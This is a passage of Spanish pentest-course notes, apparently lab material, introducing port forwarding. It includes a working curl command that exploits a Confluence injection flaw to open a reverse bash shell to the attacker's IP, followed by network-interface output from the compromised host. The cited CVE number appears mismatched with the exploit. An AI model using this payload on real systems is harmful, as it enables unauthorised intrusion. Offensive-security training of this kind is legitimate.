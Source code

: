 <br />

### 2. Port Forwading with Linux Tools.

El Port Forwarding es la técnica más fundamental que examinaremos en este Módulo. También es una técnica que se usa muy comúnmente en redes de propósito general. Al reenviar información sobre puertos, configuramos un host para escuchar en un puerto y retransmitir todos los paquetes recibidos en ese puerto a otro puerto sobre otro destino.

En condiciones normales de red, un administrador de red puede crear un reenvío de puerto para permitir el acceso a un servidor web detrás de un firewall. En ese caso, configurarían el firewall para escuchar en un puerto determinado en una interfaz y redirigir todos los paquetes al servidor web detrás de él.

Muchos *routers* domésticos también brindan la funcionalidad de reenvío de puertos. Estos pueden configurarse para escuchar en un puerto en el lado del enrutador orientado a Internet y luego reenviar las conexiones desde ese puerto a otro dispositivo dentro de la red doméstica.

<br />

#### 2.1. Simple Port Forwarding Scenario.


**Enumeración del entorno.**

Supongámos que hemos ganado acceso RCE a un servidor mediante el siguiente exploit:

```
curl -v http://192.168.214.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.204/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

Asociado al CVE-2022-23134. Y comprobamos sus interfaces de red. Encontramos que posee dos interfaces de red. 

```
confluence@confluence01:/opt/atlassian/confluence/bin$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:54:46 brd ff:ff:ff:ff:ff:ff
    inet 192.168.50.63/24 brd 192.168.50.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:5446/64 scope link 
       valid_lft forever preferred_lft forever
3: ens224: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:8a:c2:c9 brd ff:ff:ff:ff:ff:ff
    inet 10.4.50.63/24 brd 10.4.50.255 scope global ens224
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe8a:c2c9/64 scope link 
       valid_lft forever preferred_lft forever
```
